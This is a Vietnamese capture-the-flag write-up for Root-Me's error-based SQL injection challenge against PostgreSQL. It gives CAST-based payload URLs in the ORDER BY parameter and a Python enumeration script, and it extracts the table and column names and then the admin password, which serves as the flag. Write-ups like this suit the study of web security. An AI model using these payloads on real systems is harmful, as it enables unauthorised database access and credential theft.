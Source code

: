 # [SQL injection - Error](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Error)

## Solutions

Xuất hiện lỗi ở `GET /web-serveur/ch34/?action=contents&order=ASCa`:

```text
ERROR:  syntax error at or near "ASCa"
LINE 1: ...out TO 100; COMMIT;SELECT * FROM contents order by page ASCa
```

Không dùng được `UNION` sau `ORDER BY`, không được dùng dấu `;`

Sử dụng hàm cast() hoặc convert() để xác nhận dựa trên error:

- Kiểm tra version bằng `GET /web-serveur/ch34/?action=contents&order=, (CAST((SELECT version()) AS INT))`:
  - `PostgreSQL 9.5.25 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit`
- Lấy tên các table `GET /web-serveur/ch34/?action=contents&order=, (CAST((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET 0) AS INT))`, chỉ lấy được từng tên tables bằng cách thay đổi OFFSET. Tuy nhiên ở đây, khi thử với OFFSET 0 đã ra ngay một kết quả đáng ngờ:
  - `m3mbr35t4bl3`

- Lấy tên các cột trong table m3mbr35t4bl3 `GET /web-serveur/ch34/?action=contents&order=, (CAST((SELECT column_name FROM information_schema.columns WHERE table_name = 'm3mbr35t4bl3') AS INT))`

  - Server trả về lỗi cú pháp ở chỗ `table_name = 'm3mbr35t4bl3'`, không tìm cách khắc phục được

- Đành phải lấy tên tất cả các cột trong tất cả các cột trong database, viết script cho tiện:

```python
import requests

i = -1
while True:
    i += 1
    r = requests.get(f"http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=, (CAST((SELECT column_name FROM information_schema.columns LIMIT 1 OFFSET {i}) AS INT))")
    if "ERROR" in r.text:
        print(r.text[443:-15])
    else:
        break
```

Kết quả:

```bash
┌──(kali㉿kali)-[~/Documents]
└─$ /bin/python /home/kali/Documents/test.py
id
us3rn4m3_c0l
p455w0rd_c0l
em41l_c0l
typname
typnamespace
typowner
...
```

Có thể đoán được `us3rn4m3_c0l` và `p455w0rd_c0l` thuộc bảng `m3mbr35t4bl3`

- Tìm kiếm OFFSET của tài khoản ADMIN trong bảng `GET /web-serveur/ch34/?action=contents&order=, (CAST((SELECT us3rn4m3_c0l FROM m3mbr35t4bl3 LIMIT 1 OFFSET 0) AS INT))`
  - Kết quả: `ERROR:  invalid input syntax for integer: "admin"` => admin ở OFFSET 0

- Lấy password `GET /web-serveur/ch34/?action=contents&order=, (CAST((SELECT p455w0rd_c0l FROM m3mbr35t4bl3 LIMIT 1 OFFSET 0) AS INT))`
  - Kết quả: `ERROR:  invalid input syntax for integer: "1a2BdKT5DIx3qxQN3UaC"`

Flag: `1a2BdKT5DIx3qxQN3UaC`

## References

- <https://www.postgresql.org/docs/current/queries-limit.html>
- <https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-(mssql).pdf>
